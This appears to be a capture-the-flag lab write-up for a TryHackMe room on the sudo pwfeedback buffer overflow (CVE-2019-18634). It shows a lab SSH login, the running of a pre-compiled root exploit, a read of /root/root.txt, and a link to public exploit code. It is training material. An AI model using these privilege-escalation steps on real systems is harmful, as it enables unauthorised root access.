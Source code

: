 ```yaml
---
description: A tutorial room exploring CVE-2019-18634 in the Unix Sudo Program
---
```


# Sudo Buffer Overflow

It has been patched, but affects versions of sudo earlier than **1.8.26**.

* `pwfeedback` option enabled

![](<../../.gitbook/assets/image (5) (1) (1) (1).png>)

## Task 2 Buffer Overflow

#### **Use the pre-compiled exploit in the VM to get a root shell.**

```bash
sshpass -p tryhackme ssh -p 4444 tryhackme@10.10.220.164
./exploit
```

#### **What's the flag in /root/root.txt?**

```bash
cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-08-24 10-02-13.png>)

## Support Material

{% embed url="https://github.com/saleemrashid/sudo-cve-2019-18634" %}
